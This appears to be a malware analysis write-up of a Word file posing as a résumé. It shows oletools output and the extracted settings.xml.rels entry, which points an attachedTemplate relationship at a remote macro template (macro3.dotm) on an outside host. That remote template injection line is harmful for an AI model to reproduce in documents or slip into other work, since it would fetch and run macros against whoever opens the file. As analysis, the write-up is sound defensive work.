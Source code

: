 # incrediblyPolishedResume.docx

## Identification:

**FileName:** incrediblyPolishedResume.docx

**SHA256:** 868e6f35b12140b2c348cafac261402c1afc0dadbb178d971f1d5f6e5f117ac

**FileSize:** 159744 (bytes)

<br>

## Analysis:

For this analysis of this word file Oletools were used. Initial triage on this sample was carried out using oleid to check for any macro or remote template injections using the command.

`oleid incrediblyPolishedResume.docx`

    oleid 0.60.dev1 - http://decalage.info/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Filename: incrediblyPolishedResume.docx
    --------------------+--------------------+----------+--------------------------
    Indicator           |Value               |Risk      |Description
    --------------------+--------------------+----------+--------------------------
    File format         |MS Word 2007+       |info      |
                        |Document (.docx)    |          |
    --------------------+--------------------+----------+--------------------------
    Container format    |OpenXML             |info      |Container type
    --------------------+--------------------+----------+--------------------------
    Encrypted           |False               |none      |The file is not encrypted
    --------------------+--------------------+----------+--------------------------
    VBA Macros          |No                  |none      |This file does not contain
                        |                    |          |VBA macros.
    --------------------+--------------------+----------+--------------------------
    XLM Macros          |No                  |none      |This file does not contain
                        |                    |          |Excel 4/XLM macros.
    --------------------+--------------------+----------+--------------------------
    External            |1                   |HIGH      |External relationships
    Relationships       |                    |          |found: attachedTemplate -
                        |                    |          |use oleobj for details
    --------------------+--------------------+----------+--------------------------

Here, from the result of oleid tool, it was found that this word file has external relationships, meaning that it may have remote template injection.

The word file was then extracted and was navigated to \word\_rels\settings.xml.rels. Inside the settings.xml.rels, following contents can be seen as shown below.

    <?xml version="1.0"  ?>
    <Relationships  xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
    <Relationship  Id="rId1"  Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"  Target="http://somtaw.warship.kuunlaan.local/macro3.dotm"  TargetMode="External"/>
    </Relationships>

Here, it can be seen in Target value that it will use the remote template 'macro3.dotm' from 'somtaw.warship.kuunlaan.local', which contains the macro and will execute it. 
